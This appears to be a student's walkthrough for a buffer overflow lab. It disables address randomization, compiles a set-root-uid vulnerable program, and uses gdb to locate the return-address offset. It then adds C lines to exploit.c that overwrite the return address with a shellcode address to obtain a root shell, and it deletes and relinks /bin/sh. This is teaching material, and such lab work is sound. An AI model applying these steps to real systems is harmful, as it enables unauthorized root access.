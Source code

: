 # Task 1: Exploiting the Vulnerability
## preparation

Disable address apace randomization:

    sudo sysctl -w kernel.randomize_va_space=0

Create an empty badfile for debugger:

    touch badfile

**NOTE**: If you are using Ubuntu 16.04 or later, the default `dash` shell will not work properly (you won't get a root shell). Use following commands to replace `dash` by `zsh` before starting:

    sudo apt-get install zsh
    sudo rm /bin/sh
    sudo ln -s /bin/zsh /bin/sh
    exit

## test `call_shellcode.c`

    gcc -z execstack -o call_shellcode call_shellcode.c
    ./call_shellcode

A shell should be invoked here

## edit and compile `stack.c`

Insert codes after `char buffer[24];` :

```c
printf("%p\n", buffer);
```

Then compile `stack.c` in root account, and make it *set-root-uid*:

    su root
    gcc -o stack -z execstack -fno-stack-protector stack.c
    chmod 4755 stack
    exit

## check buffer address & offset

First run stack:

    ./stack

Take the output address as ***BUF***. You can also see an output `Returned Properly` here.

Then start gdb and disassemble function `bof`:

    gdb stack
    disas bof

Take the offset of the instruction `<strcpy>` as N. Set two breakpoints and start to run:

    b *(bof+0)
    b *(bof+N)
    r
    x/x $esp

You can get `addrA: xxxx` which shows the memory that contains return address. Then continue:

    c
    x/x $esp

Here you'll get `xxxx: addrB` which represents the start address of `buffer` in gdb. Now you can calculate offset:

    p addrA-addrB

Copy ***OFFSET*** *= addA - addrB* calculated above, then quit gdb:

    q
    y

## edit `exploit.c`

Insert codes after `memset(&buffer, 0x90, 517);` :

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + OFFSET + 4, shellcode);
```

## compile `exploit.c` and run!

    gcc -o exploit exploit.c
    ./exploit
    ./stack

You should see a **#** here, which means you've got a root shell! You can check this by typing the following:

    id
    whoami
